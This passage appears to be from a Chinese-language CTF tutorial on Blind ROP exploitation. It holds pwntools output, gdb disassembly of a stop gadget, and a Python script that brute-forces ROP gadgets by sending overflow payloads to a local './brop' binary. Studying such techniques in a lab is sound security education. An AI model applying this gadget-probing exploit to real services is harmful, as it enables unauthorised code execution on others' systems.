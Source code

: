 ```
[+] Starting local process './brop': pid 120035
[*] Process './brop' stopped with exit code -11 (SIGSEGV) (pid 120035)
0x4005c0
[+] Starting local process './brop': pid 120038
[*] Stopped process './brop' (pid 120038)
stop gadgets = 0x4005c0
```

可以查看汇编代码验证：(但是真实情况下看不见，这就是脚本的作用)

```
gdb-peda$ x /20i 0x4005c0
   0x4005c0 <_start>:	xor    ebp,ebp
   0x4005c2 <_start+2>:	mov    r9,rdx
   0x4005c5 <_start+5>:	pop    rsi
   0x4005c6 <_start+6>:	mov    rdx,rsp
   0x4005c9 <_start+9>:	and    rsp,0xfffffffffffffff0
##这里返回的是_start,返回main的地址也有用，但是返回_init不行，这主要看起始给的地址
```

4、寻找 brop gadgets（例如 __libc_csu_init 中的 gadgets），定位 pop rdi ; ret 的地址

```
# -*- encoding: utf-8 -*-
from pwn import *
from LibcSearcher import *
#得到可能的brop gatget
def get_brop_gadget(length, stop_gadget, addr):            
    try:
        p = process('./brop')
        p.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(
            stop_gadget) + p64(0) * 10             #参考ret2csu原理，这里也可以省去p64(0)*10
        p.sendline(payload)
        content = p.recv()
        p.close()
        #print content
        # stop gadget returns memory
        if not content.startswith('WelCome'):
            return False
        return True
    except Exception:
        p.close()
        return False

#对可能的gatget进行检查
def check_brop_gadget(length, addr):
    try:
        p = process('./brop')
        p.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + 'a' * 8 * 10  #同样可以省去'a'*8*10
        p.sendline(payload)
        content = p.recv()
        p.close()
        return False
    except Exception:
        p.close()
        return True


##buffer_length = GetBufferLength()
buffer_length = 72
##stop_gatget = getStopAddr(length)
stop_gadget = 0x4005c0
addr = 0x400760
```